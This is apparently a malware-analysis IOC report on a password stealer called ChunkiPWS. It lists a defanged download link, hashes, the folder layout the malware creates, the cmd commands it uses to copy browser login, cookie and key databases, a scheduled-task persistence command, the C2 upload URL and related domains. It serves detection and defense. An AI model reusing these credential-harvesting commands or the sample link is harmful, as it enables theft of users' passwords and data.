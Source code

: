 # Observed malicious IOCs for Chunki Password Stealer aka (ChunkiPWS)

### Date of first occurrence

27-03-2022

### Description:

A victim visits a video streaming platform that entices the victim into downloading a malicious installation package.  All of the installation packages appear to have came from mediafire.  When the installation package runs Chunki Password Stealer (ChunkiPWS) executes.  The stealer, extracts victim's browser data, credentials and OS information gathering.  The collected information is then uploaded to a remote server. Persistence is set as a scheduled tasks that periodically executes Autoit scripts.  The name ChunkiPWS was given due to its file size of the installation package. 

### Sample Analysis
https://app.any.run/tasks/a5d03b82-b444-4849-b9ac-6a68a4a507b1/

### Malicious Installation Package

Sample download link to ChunkiPWS

```
https[:]//www.mediafire[.]com/file/xqj110ce9lm2vyu/Open__The__File__Setup.zip/fileapplication/zipapplication/
```

```
Installation Package:

File Name: Open__The__File__Setup.zip
Sha256Hash: a7ce9cd6cd40ff21ede8736327a95eb8f0ad193a943dd091c9d6ec91cc02bef2 

Decompressed Archive:

File Name: Install__Latest__Download.zip
Sha256Hash: ae68059ea44da06c59ee4c59dd616614aa9f59fa5b461ef0acbb94967e5f1b56

File Name: 'Password Is  =   1122.txt'

Decompressed Executable:

File Name: File__Setup.exe
File Size: 671M
Sha256Hash: 88b1fb836125454ac4c3553b3414a5a67096a105f5fd573a2822b84ee553bca5
```

### Obstacles

The file size of the ChunkiPWS is around 670-700 mb, making analysis quite difficult to perform.  Most sandbox platform can upload a maximum of 50-100mb in size.  Also, downloading the samples through EDRs was near impossible at times.

### Observed activity of `File__Setup.exe`

When executed, a single folder is created in the victim's temp directory.  The name of the folder is four random numbers.  For Example:

```
Directory names:

C:\users\<profile>\appdata\local\temp\2300
C:\users\<profile>\appdata\local\temp\4492
C:\users\<profile>\appdata\local\temp\5753
C:\users\<profile>\appdata\local\temp\5777
C:\users\<profile>\appdata\local\temp\7090
C:\users\<profile>\appdata\local\temp\8727
```

When a folder is created, a folder structure is created which is intended to collect and organize the collected information.

```
Directory Name 
---- 

_Brave 
_Chrome 
_Edge 
_Files 
_Firefox 
_Opera 
_Wallet 
_Information.txt 
_Screen_Desktop.jpeg
```

### Data Collection:

The following commands were executed to collect credentials, OS and Software information.

```
_Chrome 

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Web Data" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_webdata.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Login Data" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_logins.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Cookies" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_cookies.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Network\Cookies" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_cookies.db"
```

```
_Firefox

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\formhistory.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\formhistory.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\cookies.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\cookies.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\signons.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\signons.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\logins.json" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\logins.json"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\key3.db" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\key3.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\key4.db" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\key4.db"
```

```
_Files

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\Desktop\*.txt" "C:\Users\<profile>\AppData\Local\Temp\2300
```

```
_Information.txt

[OS, Local Date and Time, Username, CPU, RAM, GPU, Display Resolution]
```

```
_Screen_Desktop.jpeg

Screenshot of the desktop of the time of infection
```

### Persistence

A scheduled task is created to run AutoITv3 scripts. This portion of the analysis did not complete successfully, so I will need to do more research. 

```
schtasks /create /tn \Service\Diagnostic /tr """"C:\Users\<profile>\AppData\Roaming\ServiceGet\Tasuges.exe""" """C:\Users\<profile>\AppData\Roaming\ServiceGet\Tasuges.dat"""" /st 00:01 /du 
```

https://www.virustotal.com/gui/file/237d1bca6e056df5bb16a1216a434634109478f882d3b1d58344c801d184f95d/detection

### Exfiltration

Data is then zipped and uploaded to a C2 server via A POST request.

```
http[:]//sables23[.]top/index.php

data: Content-Disposition: form-data; name="file";filename="19696.zip"

19696.zip contains the exfiltrated data
```

### Related Domains Observed

```
5a5vmh.top
rnkj09.top
85kvie.top
vcev5c.top
hwh75t.top
rmgs2r.top
kzwor6.top
0m9rxw.top
63rx85.top
nn2ms2.top
n41n1a.top
pap44w.top
o08a6d.top
qor499.top
hezwde.top
bw9e2z.top
utebcd.top
wwa4tu.top
uboys5.top
cno42s.top
bcjl1h.top
e6in0v.top
bd7tlu.top
thyx30.top
o8hpwj.top
1bqroa.top
ibngww.top
dgjpgy.top
odmtu3.top
c6tjvl.top
va3ibn.top
sk8r54.top
zmn16h.top
kzhzuc.top
vbfyit.top
rxmbsm.top
2gbbja.top
wrd4fo.top
httsps.top
305iot.top
3t3hyf.top
n80yab.top
vgxcci.top
5m2n7x.top
dmvute.top
ean5e7.top
kml2o2.top
859rkn.top
tsrwj3.top
laugk2.top
p3tt2t.top
4bx196.top
yl1wg6.top
kt70uk.top
gs2ka7.top
0cgaez.top
bvbg1l.top
p7k7t4.top
ac7zvz.top
lxvmhm.top
5p76tw.top
308an1.top
x9ap4h.top
glg1i0.top
ucrw57.top
r21wmw.top
06j7o0.top
```
